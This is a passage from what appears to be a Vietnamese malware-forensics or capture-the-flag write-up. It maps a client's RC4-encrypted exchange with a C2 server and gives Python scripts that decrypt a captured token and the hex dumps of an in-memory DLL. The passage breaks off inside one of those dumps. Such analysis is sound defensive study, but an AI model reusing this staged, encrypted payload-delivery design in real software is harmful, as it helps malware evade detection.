

Client và server trao đổi với nhau liên tục như trên `x` lần. Để duy trì vòng lặp đó, ở cuối mỗi hàm `client_gen[option]()` sẽ luôn có lệnh ngắt `int 3` (Breakpoint Exception `0x80000003`) để quay lại vòng lặp VEH nhận lệnh tiếp theo.   



Vậy ta có luồng hoạt động hoàn thiện của client-server như sau:  

| Client | Server |
| --- | --- |
| 1. Gọi `WSAStartup`, phân giải tên miền/IP `192.168.89.136`, cổng `31337`. |  |
| 2. Tạo kết nối tới C2 server |  |
|  | 3. Gửi 512 bytes về cho client, gọi là `buf`. |
| 4. Gửi 1 byte ACK tới server. |  |
| 5. Sinh `token` dài 64 bytes (token chỉ được tạo ra 1 lần duy nhất) |  |
| 6. Mã hóa độ dài `token` bằng RC4 với key = `buf`, rồi gửi tới server 4 bytes độ dài `token`. |  |
| 7. Gửi tiếp `token` đã bị mã hóa bằng RC4 với key như trên. |  |
|  | 8. Gửi về 4 byte kích thước của dll. |
|  | 9. Gửi tiếp nội dung của dll đã bị mã hóa. |
| 10. Decrypt dll bằng thuật toán RC4 với key = `token` và load dll vào bộ nhớ. |  |
| 11. Gửi 4 bytes (mình k biết chắc chắn là gì) đã bị mã hóa RC4 lên server, gọi là `x`. |  |
|  | 12. Tạo vòng lặp trao đổi với nhau thêm `x` lần. Server gửi 1 byte `option` (có 4 giá trị: [0,3]). |
| 13. Gọi hàm `gen[option]()`từ dll để biến đổi `token`, lấy đó làm `new_key`. |  |
| 14. Mã hóa size image chunk và image chunk bằng thuật RC4 với `new_key` rồi gửi lên server. |  |
| 15. Gọi `int 3` để tiếp tục quay về VEH duy trì vòng lặp `x` lần. |  |

### 0x03 Trích xuất file dll

Ở packet 6, server gửi cho client 1 chuỗi `I'm_4_Gat3_K33per`, đây chính là `buf` ở bước 3. 



Ở packet 9, client gửi 68 bytes (4 + 64), nội dung là: `size(token) + token`. 



Mình dùng đoạn script này để decrypt RC4, lấy được `token` =  `WTPjWbJafqNPqrZFswaijmyVKMddOrKzukegbVDpXJqDfulPDmDwDasqTwxvibnM`

```python
from Crypto.Cipher import ARC4

key = "I'm_4_Gat3_K33per".encode("latin1")

cipher1 = ARC4.new(key)
size_token = bytes.fromhex("86dad7bb")
print(f"size_token: {int.from_bytes(cipher1.decrypt(size_token), 'little')}")

cipher2 = ARC4.new(key)
token = bytes.fromhex("918e87d161556ad2e40a89010adfe3aa41ca44764e786b738047456cc80d021e7f60b56776b858225d45099f0e99b62f5758977fde740bcc2be36dbf403eb860")
print(f"token: {cipher2.decrypt(token)}")

# size_token: 64
# token: b'WTPjWbJafqNPqrZFswaijmyVKMddOrKzukegbVDpXJqDfulPDmDwDasqTwxvibnM'
```

Server gửi về dll có kích thước 0x2a00 (bytes) = 10752 = 1460 * 7 + 532. Sau đó là liên tiếp 8 gói tin, tổng kích thước đúng bằng 10752 bytes.



Mình dump data các packet ra rồi decrypt RC4 với key = `token`

```python
from Crypto.Cipher import ARC4

p1 = bytes.fromhex("1867b0521d6eaebf2e2660084c6c453b6c6ec0b93d043f7b74c51df60a02625cc2e7752327c265b91618ce60bee06a1343f1db14e8c62b7f87e064f332f0711c3a17f5eb3bc5a6dff64470ef91e5985e58ba55024cd0d32e3d50c773b72214a6e2cc944ae4c5403b19b86861e37f47f8a7c7920fb528b9ffa37473266b44bcc518596ef62eaf5aa2850b309f8a60d7766359ac4fb5ee0db2c9530e9ede450a5097e45cf8a4e6c3aced6c6b356b3ab3a8ef14a1f2763d1d90dff33138fc929e5176b7e02a3b81873af2e1c7b534711a3eac1693cd4ee0c4183ea41d55aec812c3c060fc004ea5e31e04e413041da0d1667214367b93f623452e188dd6a459aebcfd89626fd09a58babe92cafec721d76308178c7e66a31f39e229970b8ee7f9492613ecac7b052503c9c17c4698fb3989ab1629a3792cdf3f109d0d3f585035b167617fb4367e523bc44d8954a6bd926217ab8bd47b0827cfa5b3d2262d8e5e0e03e6a51a8f4b4f90aad423661072ed0534b54895b72d2d41386cf0dce0da5ea15a6711f1028c3bb7964553caf1f14a11be206d9a5a7f092f27ab72b3cdb13c9c7904ada16bc6f0701c20cd5c79882e4d53277649ea9f411a87545e08c5d17f406a77b5afa1ab395650687eba9092db4bb77aef1494f5cea6f6ac9f551d87c49b7053e67aa398664bbf89225986c2848ac4d971e770632a865dc012cb543b7e340c6050c932f44f7b29ddda351c19fc084eaf0c7b2684f42a9e0dba3af2e2a477f6ffe4b11f15202573af870aaf150d26f60375cf995fa59022607adc4dda72b9ace8783f4a87b88da9622d83fbfaafc14412db2b0590beaf200ced1fbd5c48b91628c7950f8757fa77c84b0764d3e60057313ad391c52dacd17e08c0f8fa67cb7a9701862e45dc00eb01de8d798e7b59c07822809a80dff61d3a3ffc70e04fbb7a69337c26dad7d4a3a965691ed3c484add8030882d33723bae41d662e6157b91e1e178e850846346d26b470794dbe643777ad9fab1e6909a91b36e75f373f8d9a56e9734c7f630bb4db1c712c6c9371789905b690109bf74323d7a25641ad145630ce958c895c3cca44ce8d03b1f5b816a19b9ae7b2c6eac857a267367a4a49d24e35db335457cade765a9d84c6cce26bbee803e714d79c2f68d83fa020b8319fd4baa0ef8728b8ee6ba5fec9747fddc15a7479ae9756455c3ed143abe5ab629c4c40beb9e3651d428a639f6f7abc38c263c903b957c170db82dd6f1a3b27b7c5d957294a0eac44723c64fb42036d3360ef53e62ea1209a2cd1e688ea554c8074a1a255478227436791f5431fc0134a473794ac2319014b878a73f6ca2b04e8a53b1fc0dd7aaf9b741c9c78ae1d39ff9c87eb0012e40a325b1b355dd1525bf806b5cf4b3e700c368aa7c770d8fd61b9913ba807b6ec74631b68b6701ea56605578e6775316b3ff91354b807a0f9327d5c2418eb2d5f578d91c4c756e62d3a6825dabdaeff44e301515ba5869eaab1ed23f693a3bb7dcbfeed3d9ef45e87723b04845768bfdb038af96462a2821152b961b85c934a23140c9caeb2a94d8931eb38ad929ba0901f6d00286c588a92d861e63b55c6bc973ac44987d48182fde2227b8db67a003817c4a89a548810d526fa3ab58ec6bba24fb0150fcaa0739fd7f13bff3838a1454e7d6d821deab02e379eef6aae0344bb87110c54df3e753d89f4fb364377b12cfe0290d8bfdf89af861f625d90ea21cb047d7eae36a62a7c3ff129a0ea593c278a7473b3540566ce9423eac075a63916fd2f2f94554d010c9cc60f7035c6cca97b9351fc7c6fd32805df9b3539ef5c2306abab3d3b92bbcb1fd1a7ab2ad6b179c98a2b59aab81be9a3e9172e7edea15c1147e1e90d01579c102f362113700b61ddbbf0f3ec72d22332fd82612887462a1341e973ec9a8c2dee44b1b8c0068cd519775a99d76a5b82f0788b53dc86b2612dc03ffbfabeeb70aff0595cacd5b03a0c3707a2b9761ecf1a4cfa44553f62ff18ef0e061f50540cd53a9524c4fa3532f0bd66e6b06a210609cc17b0c67e")
p2 = bytes.fromhex("1d3b0775df035aa33659513f163d9aed8cf875b347bf1fbd868a7cae479574a7661002221f551c9d1e1106aec83b0910653903ac8e1451fea0b012b72cdb7fdaddc5b35e51fe46e17b343d85a90e144abefa97b8771e4548cc1a9de29d7869f0d9f694fb83ff930168e52f93b6abda1915300a5ba0cbdfaacb89f52bc84bdf1a3284097afe9b44ec5a42f57f655add2b6f545037341be59900cecfa19fc5dcb05fe648b075789f0ed9b26eaeb332e3bf082401de9d79eefa8b1f0871768131aca2f558d4bba9af64a761df14838c481b89e61fcfe345f57ea0134c1e530b933857706e85f8c89452f3e0bdbfa3d678e7916f70492cf054c3cad75c3eb444a93c280526aca0cdb262459def1f62148458674f83c0bbdf800263dcf6d6635a21ec6cd480cde185ba608e2f6b43c92df46d38e9f714dff2d7042f586143e5e518ee417b4f087a8b8ac6e6e4883f92bea103c3305f52c92d11d0219b686745312e712d385cca990018061decd7082ab4d2df6f1c8c8e7f982e76c94777ce300a3eddfabe7e74cb81578525f1ddaf057925541aecc0b7d8e365039644acad4ea1f0e369374d702bd3616c1ccd405262bafc960954adb0a928f9b939c1e53f88fc25af5545ae7e8e9a1e2727b69eafeaf5ebefd28c91e1607793b09efafb6450c4507474e9098a2d5a334c0a4415a2ca26c28ae03943635440a42430470fbd6382a31d5ff9c9977ffad049b37e8992e8103046829cacb50c9b13e69f1247a4fa8ba8d308d5f15ed07b9285949565353ee76135df9462fae5a2e644451f3938862bf197290c5ed333fb427013e186b71945678f0a99c2df93356e948afe5745a32de8d2b338aee966dbc49a4ba8deab6d4f7711b1b39d1d3a10e18f4469ce05b32520e8b8ea2685eba886f8dc56a3f2d8e397fd36ec6f8bb2bfaa6421a0a887e2f7a186b192f0775a2aa355cb1f07f7965797e65f94c9d000f42fbd0946d485aa721ba7179aeb6e726e9dc2b632eee68cf92307c994bd191a22469838aad8d6581f5548a0ceedbf1e2c8b466ffd5ac9067295d149036a72f07014eae696882922fb0397fbe80ac16bc366f23b42c5cf23277034976606677a73fa8499d8505b0f97652b3410f1e9ce681cb78cc2342ff80354e6d9fd685e51de77543a764e8da30d23b8f7c154f9eaa18f6a3510b1617f4f3ba1354c3238ef231afbc18d6eb63a0d8f8b34e52f8d0e2d7a73d598630deb2f92711e9aac1dc7d3f7c24ca18922af008a7c4977009fbfcbbde413292af799625b1bd4742ebf54b13162dfdaf457bd32d6b31b50465b90e177446083d88295959abf4c4cfe99607d6907f210f5b01f9023696424c6e808cf4cdcc0dc5c15e435cb8eb6c44addb6c14a45aeecbfcf722482e295f28955bc1fc5390106c77f915e27c48a2b7cacc6a0b83ac4128a4648be83df5ab4a4b40e7fcbc1f367c5f9cce8dd8720268011f7aa4c868f5129cc273f898048524f2f018fcdff914ac8ef178dc6859ec2b99820a6cb3199e4a32485aaa444867fc0dc04d1e4661fe40f47959ddf0f42bddd2718821b5091f7f1b6a560acb3512063626643ab6d511fff59ab271fc6826dcd56ddc597e3fd035080674f9ff89e8069b70d870beb6deb6e80476a88b508a7be5e1a259abc6f92918a1f331a731722abda889c189f81da5e11ede91d5a8e0d49057b8c4ce9c73f4e82745aa3e8a8189c47eef05930adb9e21eeba6e8abc88237ebc10af2cea398ecafb8e48232318897091697c8a196ac3a4a63d0d1a807f824a5ac2a88707583d60fc866c4cfc9a7ba6767c41b662785d15ae9c426afd6a847b9cd64f6d02945703732445ce90fa9f785cc3382baa0df461333e5cbe2db260f3b2dccd5e5bb657def8275f448be3098ab98162107629abd2339e60778c5ef4af94109955a8542170d8b0c10f3ce96ba6512b917a85140bdc856094906bae2ee43b1b52dd6fc08d9d652758f037b3aefc473b09265a4553260ed02518c1d3bcfdb8e848841a670ca82a7d4c82bf5fcf36b57b23a990a61c458c5e3618428b75fcb")
p3 = bytes.fromhex("9a5c1be00630c17d42965b9871463dff4d5cc47846a3de452fbc919b74c89d6c1bc3ac1e102d60be662c2926c2cdb57325412fef94d23239b65d76d125d36fdd40e781002dc16ef75328a5b58bd3d622580b97be6bc17d736c75d696af2a514dec22d5199f6434b30e812b94e30601a90795e87dab300eafa95aa7a2289e77a0504c59143a57d991ad24695312a407373c476beb933788affdddc854a6eb230b634045d283feb41ab3fc170bdfb0c17254c6dfa7444c517d9dcb0604cc70946e5b75db38179c50d7fa953633ab5a89edd437da618d0b573dc63f08b456d6c96af9c46657e6a79a0d028fcef7173936fd47159c79ae4927ad3656a74552c7cd1ef0342cfc28ea6b443eda2fbf6a7c89ce13f86f388c434f482f215e3aa24c496ac7fbcf257da7aa01dc0344acdd88a6a01278e99131e6001d2c99ca5cbc1722d04a5b204ddf0fff083eaefc900c8d6de201ef70a2338cccad6b18be0a7cb32c1b532129cc815c8d57e0323c40b31fa6ce6998c554b6a725747697c96d05616a04fa5045fb390d983575f85887fdda2dc01a0f35f7e7652e810c3de2cef8bfe0d882aa305b13f7740c3d7be34c1e936593bf5f24321bb5a5492c7f114136b16e53c17046446c8bb463e7b848d15ea9755ed2b08d338f417fdcdc456a9addc23fb92e03bc7caaf458ebaed69ed277dcae1496e65800b72496c7195d41abe2022ac12c9db06fc76e3f5ea0b9ec93e3de430533c6f2a9b398d8067622577e4b5e9008286784fed06705db85b4bf555c90f2ff42f8bc90ff4a7e58c3a8568aa3bef2128cb9cbaf492614deb63e51230059f724f83d0ead36644b625539680f6c8ed4b1adff27f6afa4b1e354a5ada65319622a280a7bdd7ed4352e5511d8700d60c83de8285fdf3fbeb1666cd25b2754bce437b7783865f39a803a1254338f977164104bf512627f01c833410201db8f4a1114b027e08f6a010e1995b6d68320bce04f47b3d3d5eec9a9138698e7ce5a232aec342eca42f0201c0c1874b363b15abffb37efccf940332be00fe332777bf15c311fd94626addb2f42e409abf27cc4f24b107570f775a35684aa29f81510499b28627cd1b8e14af9913a0332b83a6414cfdf9456dc0e412537b266999751f1b4a84cf9207cbab782f626ffc98202a029aefbaa305ce2e24728fd1468973b28db19348dcf949c2943eba4cc1918cf7aa221b8867d27a7f3b8b38f4880575a30b8e97d8bfd925a6afa941e9b13b029f5a17a83344b0732afd2c781485e8f6688cf8321924b30e3611402b1485f47a9505e61a341e8bdfa466f69fcecda17aed8edab6ecf7acac7a27210a2f2bff70fc78f1bd1afb364c6f29792650847afa4edf25b846443871a79125fdf9656d8c0788b228843dc849341282768fbdc4cf0a727a0ca75e37569533c1c3bc5887308631b66a3d842d817fefecbcf606eb7057a14d610acc4729c7da1d078f4991971afb1c140192ab14e88ddcf4c4c46807b190c1767d9baf223bc080e247ca1d05c3212396590226c1e9506811894bf25b163c7385217bbde5f1ef02bb9dcf26acab1a228b90b870717445cc8f4270c3587882dffba8d6776ec7f51e2e63a18056441af1ada893c44db8f305415887c04c9f42922293de86b826551cfd84a6bf566f1034b92a0d5c75d98bd1ca47509c22aaa7be72da51585bc57ae6db6afed45b3931c178f6db1be35e591a437238f6e01eeef6dff538e813233fbb4c286d17f299411248c1170f3d8df75726af8bd9e3dbc4e90efdf6af0f8016e7b455752ce16e42ee0604be335cae5ae64625d3a0fab2a11a643d5de8ac36c854a0a435ba07d507b7d2ebc9d3974227b29d18a30eb03c901ee1386aa4b68a4f1e53fabc77c4c426584b4fec7c7ec8b32fbb9f25f178a8f010a2b210f049da9d01a6866587f3f632341d1a00f0c11217920705cab62c148667222c234e742865821f9dd3906b1220b6303271bd85be58072cc9a9efe4dc4febd1c30c3e81eb30aa6f6e555e6da804ead19e1271a4d26126a29b4960ead5b110ffe957731")
p4 = bytes.fromhex("b1151a16883031dca978451c5a4d804f65833ced1866d5beea8b048d681d13a4b4711d64edcc0160bdcf3514646450ce3a340a6c1bd8492477514519b918a13f4286a693aa829e097d24da0ada0f459af08f348d7ae6da5fd42d016339928cc4e78477dd94c65e8699b76d42d6c1d3fe2ca958fd91ab94061fde4783ea4f1aa8b56fd4c063eef84767ecc447606365c269f7282e0c352c43e7bfe4c48e39d1f0775c70e893bca659450838ca330884765613d3bf3bdceca7b9db7a5c04335fb9c18b180bd6c88c05cdbe5714bd34439bfc089242f3ef21c0755b294c5dc1ea18491d39ade9435217954f33ee26ec52bf348985abd739b6c305d60f40d25d2d9697af3121936aeff0f50851251f3b170266aa6a117c20ff3164fab24f2a199d964bc1b622631e708ca9217730119720bb3ad06a531c7ace1c73d0d4e52c0e6773704d1f5853fcd8d4087480157d80a5266ce2ab51eedaf9abe28bb78ed24e17dcac39be8011425cc7dcd9433e9b10c1fa5e6322b32a3b1ba5b4772f8c4faa12d88ef87c525d14e41ed274ce30236d4dbce7cd9d2f1dcf03b2790267519633963a7242f561d61d53a195c57b2e2a8cbaa182238102a68d736fb96d24973fbcdd45f260397e5593c066ec278ce2f88646551aafe419d88fbe05558516762541ef3b64370feac6414ed94ccb0be77b77822a6494bb6c7c6b742a683f30ee5f5e600adddd12635ffccf6b86f542c5f06335acfd4969d075abbb8bd60dfb56a10c2ea56a8af64025354a9cde490c40548b5c9f28f1ab47009828c53552dec376a8f18b0a1ed53d196afdd3b1f4940c715c9683726fccf46ee4673d28a4ac16f00fe832da931fef44743ee262fce9f2474c33f47e3cfec4087dd1d6ac8385722a436ceaa9be997b024d76ad65a94b9d98db8119786d3382c7cccee8949a366d425740c831f5f8348cb829aaa7680b425b066c8a1d529b6436fed88322336778714411ef73b701feb024f16e2ee99e7f3556a150a8e1a4792ed5b18722eedf00ece6a0068bb8e88b502293fa6b3b89775d05eedb66f83c5830439c4a94e20424794b9ada2a1042fe4d0263b64f78a2992a0c06facc0e12be1a8a0275b2252fd90b943477c5942b0fd9766a2e4cbb2ea7684156781279753d954406fd54ce2971ca71f03431911b77b2292fdb2d6d1b04bd902b260a3748e48c807aaa09f26923b9402147e0186cb76d03759cf1b3230f126365698a5dd25e07b910aa6b824defa5ce4d5122438bd32c91b4c6708ea9d5abc23c806dafcf39e8af01fc38291f1e5301730bbffab9a0359bfa397ed803b5ad7eb8147c23bfa4da75e2bacf90ee9cf317a14b561f66f97bb21a195dc2f426744f5ce8030f0f29a081c71d5e420d567ba64d1dcb894203cc4f596e07f7f14feed90af5b9721992f2a305c7b9178949deb89cfba682f1ff426c8e2875ae336156f9a21353c97a75d8f9314d7b272f251856acb46a5d0fe887869980cfdea8be0816b9af45192c0558eb769df6d7548d6b03cd4dcc2196f2cb6aae7934099d477c2a0071576f7dd00761f855efc88e787c0a610989593b3aa71678d5f92b567b52ccceca2ca61501b82070fc9f1b922a41c6f5a87f88fdb2fd63ca1fa349f9c2d03260d35d853278e9c4cee1bd92e16e087089ae9497ac77091e63f0926174b38861fb8a41ff1e36e39122f49402723fc94f3dd11cd43dbc6f6e7e4f1a6651ec9b7358fbe070ad340bd78055f74ccdd702f30fbe958bf7f65ad39f74d08b521a5ef52f2072280f1867fb7826290a33d9f906704478f28ea9524b3704f86361491efe10672b7079a1357e4d68764f76466192c93c45fc8711c4e1b3ce067c1ebb064cf276dafa7c1a2db8fe2424aecb88ecb32a41f660bfa8571e8fa1fdb6722702ed82b5cb7c3b22a11f95644f06c0a964da6a08f1f4bc4d506b7106ac6d838da41ccdc762af3af8ea827e73c3f3ac283e2b99d0b1e1a272d57ac3d5d2da001d8ab459fbedc22465759c95b2bd64b255447a545127c14331b89aa9a1726e85804bc6a1ccded29c6f")
p5 = bytes.fromhex("08d3dd07d460d248eecfd8383c0ed99043bca1e56159a4ed2fe3a37584404f1e6f98e16546cb9cfdfa6163d5de0a2f4f2eecb10ec02ea17c8f714975c0f8033cccef8fa6b311b2732ca1d26cc5e8ce646dbe5151fc17ef1ea25ecbc19e47b59e135208a2085a38731d73d809eb2587b7ebecf501cdb1393f7cb9677816e84ea8e170b2f5de72001b843ae56e9936367b48bff15da12f8742c154605e295d8f5e4494cbf044853a669d8ab488091c2ad762af8e27761f6b2175df8dddaec169eb91ca49600043843082acbe083fe3787d5904a5be4fdc92dcc866b104bd0b1b43fe28488d5a5cd604ff6b38bfb3a1c5386db6858adec74c9e5243ca82dd011fcc16ee74f67108b1c1e5695200948472de4443fbb88686c42165cba0fe7edd26dca38cad0eb9a5108f2843b18e2d40da09194cced8098f2c44eb317963ab0c05edce9ad7fcb79ada17e18baf2e58e5f5c45be7402756b7de8e9245d25c4eeb47fbda7995a60d64cfa069e21a6de4d6b644f14a71cbd1b99c4b61eff0f64bb90c0b39a1bbe25039593e530eae1a7a429d4cd5522f1c8b400520caa4aba7c1a1121030726d64dcfebefd9afb0fe3fb65a31ce4158bd8daea1c2161c6d79fc8b07c7a328da613668c4c4cd9c78af925ebb6067df591f54c93b978e2d9ad883a1e6308bfc3733072d92b908de3621b73026471336b7d0711b21fae6bb918fad17646bbedf2adbd8efbfcc9881797a69e7b3160ceca10414ae107c49e083f79a9a55df40df7f9b6de91c5cdb6b9c502a7c3f3c550202c8366b9dbadfaed9f15afdca01d771eb1c08cfb75ab3983aa5c8b66175aee82e7b3f1b0780d9a8a6eb621a5a6f9c932d285a5b6e90676c715c51396b53363dd13f506f2ea7d8a9516c9ef43181b21ba3ae2e62e0e6bd996f911b392daa0dfa70f9d1c89ef4ce0b073ad5a3afcdca8b59e6a41d46b8ede30dea12256cbf35f1d9aad7baf2cfbe1d5ccae9daab29c7ded7e2f605718ac048bfb591cdc191bdcdc92c9a0035ce311d1d27108a92d8a2577a907b9087a3f940966a613693eaeeecd96bd030089ee9b207fc0a9fa05cf2c3ebabbf9b1f4bb9f1e31cb1bdba7344e32a596188c487d7358a2a4ec80b6b46db9ce8e94a61c5e69f0ee7783833a86befb637df2adf6b82ff8cadaa96b758d942a3404ecdda3355c5393386fb6819a4286226ebb82c7f3467110e8d9d2f1a80bc785c370a99d31421b4bfc859aed32d80ee3741c99504f6e9979791c22f8c4e9fc064181e5ee5b72b9d1480f8247f9377667acbfcd6e7533404e52a6739a0e2b794b3730f680094888e4059a42cd8248dab71e3e4cb8ea2fa39476fc40555b12ee7adcd4fab1ddd75ed4402c9f6bf05122ce8f4e071a67f0ee1c4b64a270a4fec6a0a1913ccc7a10d5c3085ee50959264be5d1fe3b03e50dd1923d80abe05297c230b5fcf0c43345b656352881bb3eb98b6a326964e66231f416fc0735d51a2035b08634f8cd8467827d8b1391312c9e5672e750b194acc86f8447be5c23bfcd75aafa65a36f6def00d17e03634a45bc29b0e03d76f258e97c07ad05cb129ba7100fe2fb35d0432b10ff73e40a50003c89b648cc12c9ed0e93db482862d11169652cda7d3d3b7032c7530af5e7d6b974a3d130dacee2b3329602a46f68135d3b010bd8abcc01528612fd6fce9aaa363772e82c5a07e25249c1cae29d87b42c8d70184cc983b84992ab6271a24d413aa1b1ea394adb3b7c3ef865d5f0d9f697bc24b39324ec7c01505b9e236825030d18d5db88503d780a3b69d1ecdadf74ddcc55db2a99b4799d6a4498aac9e05c3011582e81ecb7ef07094008a12c279c6b1c6e08f512f05a4134abfebbec3e8ebdb3bcb7e8547d47309a602bf53f6fe8f486d4123cae17272852e984edeabc0d533cfcaadad29e585a9e81f9bcdaa470acb04a98913519e1d9b072bc1cef81596eedf65b11a45aae028f303faea67f9e452db4ca56acd818ffa6a915894f5e2385d62ae3f922cb4e99dd786ae36ad9a86bdfc529fa15b50277f3a78bd862f197d2b2f03dca")
p6 = bytes.fromhex("a0ee98cd13ffb240f9f4fe1ccdbac18433afa4297cd1c56796f94502a51341022eeb86dfae2895c95c9be8a3dc0614f3b579df5928f36559bf58480b879477ce517937d027561998ebb7f1a2b6908e05d4fe2d4c0440b598a93b7ce1001d97baa5d79776167f57229a77dfaa7d8f0160bad3bc89b7901b39422562abdd42669dfe7dcb528ba5fa3c0474d3b2bcfd1be10d4abc2c5aa985f910bd003ba53146e0542e4c533b80d6e399568da6b94f8de2163155c1f86a82c8c0472cd1a32a61775d7a71169a58a7900af304b35068150c0d2f98894fe0d2f230471ebf5c2762f87ace107d1e47007be90da7d17f19faa8aeca43bc6b4d334f5d2b6cf3c29530454868e4325cbbe00be6ee3cde4ba7eb4b7358d9b950806aff54580b12f003c7c6cb9dcc14cf9188556179c90fa3f1264b9793953a3d26d19432d1682b7044cf947b625286e8de2c6a83bee6fedc69a3868c2632e64b249b4c0d2c20031b04ade46b94a4d1d824dd55b2b51b7ab1b7466db12e00ebf65dd94dafada26eee4f102ae8f3a511c7512f9e761a1ca4615bdf0955db733015031d734658e7b87acbb8590630f83ff42733200d56ab34e183d17a7dcfbf6eac2b275c033203b44262a5e76478a115008f43e4f12471fd341dd05750cf27f12852ae763c58b70b3d75516401f6194190d196519b156f7ba03a76c7c938f2d7a85193a816abfe80bd16eac62d714a4f8ecd5e5ba21c92133e44425912c8a58c0924f05fed06ca3ae23d10095d0594842ebfc38dd2c433ed57512b3c3396ae7a5f35906114e8f65539c8151773d83c9fdf7e47c649b301f0f197024041b8294d3740b59f31c8dc95499fa41783310d7620e02ca50818b8ed7fb88976dfd648eb92d969b724498aeea6eeb1e578f64d329e95196f93c393b41aa08aacc35ae595f49d134a7be29eda1b2f5b77eda966a27a237883f3102c4d986494448ee7a84f98b8a601dfaacc29808de3c4bf2efd1961be3fa3e59f31f52ae4e286cb4dbebe4525a0dd75d93325a592603304e9f40b90cfe3c91628ca3f97813a4ea936e384a372c3d88531dae1dc59a55328e8206e88bd1c3a364f6ed79ae013245055f833a25dab6b0e767157459f9d7da217d307f1ded190cfecda61b4a009e5c76a31dc79de7d586335617ba7634cc934be3260d096d321e9ecf5f6cdb3016c67ad0fedcb0590c5ce546c57a637362b8499ac7bcf2f446fe3e2d3140e10fa10a62f606bbd2a7935afcb2808b18c32e0ffb9845fb5ebd9b6625ab38ecf57c32b1ab96cfb55bb3b96e1d787aac8e63a779461d13d4d01b529ec3185e6bcabab15054ef89f03843434cfc42be4f85414b0dd7f9632eb5cb062f5ed9848c33cb9d47660180f9dca036567ba51dc3f62cc9b034ee838632f1199c2ca6a49df54f93994031f6237cfc9dce6099a77f1fc9b4d2ae9618646c0ed9c2f76deb5869ed66d758116f7367d4e8efa3788071fe2cd230c25b5882858e400b9e474538978ef0dd1cba5f5844e0f5fc0f549a5c6624e5d551ef2b545d0c01393d861c7bf7a54d232f24d7313f50b8b440809630eae6fc4974383a68dc76988199bd6fa2fac395c1fd4466b4637c59008900eb74bb5aaf58af48160f611d7d4f39978dd6cc26881c5f519415e11b636676a97c5e8c851c94849d641ce5d76d8bd8caa9